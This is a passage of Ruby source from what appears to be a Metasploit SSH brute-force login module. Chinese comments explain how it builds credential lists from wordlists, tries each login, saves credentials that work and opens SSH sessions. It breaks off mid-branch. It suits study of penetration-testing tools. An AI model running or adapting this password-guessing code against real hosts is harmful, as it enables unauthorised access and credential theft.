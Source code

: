 ```
    @ip = ip
    print_brute :ip => ip, :msg => "Starting bruteforce"

    # 提取配置的字典文件等参数，用来进行暴力破解的用户名和密码信息
    cred_collection = Metasploit::Framework::CredentialCollection.new(
      blank_passwords: datastore['BLANK_PASSWORDS'],
      pass_file: datastore['PASS_FILE'],
      password: datastore['PASSWORD'],
      user_file: datastore['USER_FILE'],
      userpass_file: datastore['USERPASS_FILE'],
      username: datastore['USERNAME'],
      user_as_pass: datastore['USER_AS_PASS'],
    )

    cred_collection = prepend_db_passwords(cred_collection)

    # 创建 scanner 对象，Scanner 对象将用作控制循环尝试连接的暴力破解过程
    scanner = Metasploit::Framework::LoginScanner::SSH.new(
      host: ip,
      port: rport,
      cred_details: cred_collection,
      proxies: datastore['Proxies'],
      stop_on_success: datastore['STOP_ON_SUCCESS'],
      bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
      connection_timeout: datastore['SSH_TIMEOUT'],
      framework: framework,
      framework_module: self,
    )

    scanner.verbosity = :debug if datastore['SSH_DEBUG']

	# 进入攻击程序的主循环，有多个判断，主循环中会遍历所有的可能的用户名及密码（来自先前设置的字典文件参数）
    scanner.scan! do |result|
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      # 判断返回值的各种情况
      case result.status
      
      # 如果用户名及密码匹配成功，则打印成功信息，并调用 session_setup 建立 SSH 连接，然后继续循环
      when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => "Success: '#{result.credential}' '#{result.proof.to_s.gsub(/[\r\n\e\b\a]/, ' ')}'"
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)
        session_setup(result, scanner.ssh_socket)
        :next_user
      
      # 如果目标服务器无法连接，则关闭连接接口，直接退出程序
      when Metasploit::Model::Login::Status::UNABLE_TO_CONNECT
        if datastore['VERBOSE']
          print_brute :level => :verror, :ip => ip, :msg => "Could not connect: #{result.proof}"
        end
        scanner.ssh_socket.close if scanner.ssh_socket && !scanner.ssh_socket.closed?
        invalidate_login(credential_data)
        :abort
      
      # 如果本次尝试的用户名及密码错误则打印相关信息并进行标识
      when Metasploit::Model::Login::Status::INCORRECT
        if datastore['VERBOSE']
```